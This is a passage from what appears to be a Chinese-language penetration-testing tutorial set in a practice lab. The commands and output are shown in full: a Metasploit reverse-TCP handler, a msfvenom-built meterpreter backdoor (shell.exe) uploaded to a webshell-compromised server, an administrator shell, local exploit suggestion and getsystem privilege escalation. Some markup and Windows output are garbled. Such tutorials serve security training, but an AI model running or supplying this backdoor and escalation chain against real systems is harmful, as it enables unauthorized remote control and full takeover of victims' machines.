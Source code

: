 msf5 <span class="hljs-title">exploit</span><span class="hljs-params">(multi/handler)</span> &gt; set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD </span>=&gt; windows/meterpreter/<span class="hljs-function">reverse_tcp
msf5 <span class="hljs-title">exploit</span><span class="hljs-params">(multi/handler)</span> &gt; set LHOST 192.168.69.1 ＃攻击者IP
LHOST </span>=&gt; <span class="hljs-number">192.168</span><span class="hljs-number">.69</span><span class="hljs-number">.1</span>
<span class="hljs-function">msf5 <span class="hljs-title">exploit</span><span class="hljs-params">(multi/handler)</span> &gt; set LPORT 4444
LPORT </span>=&gt; <span class="hljs-number">4444</span>
<span class="hljs-function">msf5 <span class="hljs-title">exploit</span><span class="hljs-params">(multi/handler)</span> &gt; exploit
[*] Started reverse TCP handler on 192.168.69.1:4444
</span></code></pre>
<p data-nodeid="10197">然后生成回连后门程序 shell.exe，上传到目标服务器（已获得 webshell 的服务器）并运行：</p>
<pre data-nodeid="10198"><code>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.133 LPORT=443 -f exe -o shell.exe
</code></pre>
<p data-nodeid="10199">利用成功后获得系统 shell 权限：</p>
<pre class="lang-java" data-nodeid="10200"><code data-language="java"><span class="hljs-function">msf5 <span class="hljs-title">exploit</span><span class="hljs-params">(multi/handler)</span> &gt; exploit
[*] Started reverse TCP handler on 192.168.69.1:4444 
[*] Sending <span class="hljs-title">stage</span> <span class="hljs-params">(<span class="hljs-number">176195</span> bytes)</span> to 192.168.69.143
[*] Meterpreter session 1 <span class="hljs-title">opened</span> <span class="hljs-params">(<span class="hljs-number">192.168</span><span class="hljs-number">.69</span><span class="hljs-number">.1</span>:<span class="hljs-number">4444</span> -&gt; <span class="hljs-number">192.168</span><span class="hljs-number">.69</span><span class="hljs-number">.143</span>:<span class="hljs-number">32552</span>)</span> at 2021-01-24 20:55:13 +080
meterpreter &gt; shell
Process 2364 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� <span class="hljs-params">(c)</span> 2009 Microsoft Corporation����������Ȩ����
C:\Users\Administrator\Desktop&gt;whoami
whoami
god\administrator
C:\Users\Administrator\Desktop&gt;exit
exit
meterpreter &gt; getuid
Server username: GOD\Administrator
meterpreter &gt; background
[*] Backgrounding session 1...
</span></code></pre>
<p data-nodeid="10201">利用 post/multi/recon/local_exploit_suggester 模块去获取系统的未修复的漏洞，同时 metasploit 还有对应利用模块的漏洞：</p>
<pre class="lang-java" data-nodeid="10202"><code data-language="java"><span class="hljs-function">msf5 <span class="hljs-title">post</span><span class="hljs-params">(windows/gather/enum_patches)</span> &gt; use post/multi/recon/local_exploit_suggester
msf5 <span class="hljs-title">post</span><span class="hljs-params">(multi/recon/local_exploit_suggester)</span> &gt; set session 1
session </span>=&gt; <span class="hljs-number">1</span>
<span class="hljs-function">msf5 <span class="hljs-title">post</span><span class="hljs-params">(multi/recon/local_exploit_suggester)</span> &gt; exploit
</span></code></pre>
<p data-nodeid="10203"><img src="https://s0.lgstatic.com/i/image6/M00/03/97/Cgp9HWAfY4GAQcMKAAL5SxNj3Q4699.png" alt="图片16.png" data-nodeid="10496"></p>
<div data-nodeid="10204"><p style="text-align:center">图 16  利用 local_exploit_suggester 获取未修复且可利用的漏洞</p></div>
<p data-nodeid="10205">根据上述信息可以知道，系统上还是不少漏洞可直接利用的，你可以挑选内核漏洞去利用。</p>
<p data-nodeid="10206">不过这里还有个更简单的方法，就是利用 getsystem 命令去获取 SYSTEM 权限，如下图所示。</p>
<p data-nodeid="10207"><img src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEaWAPN3CAABEa5FU48c948.png" alt="Drawing 16.png" data-nodeid="10501"></p>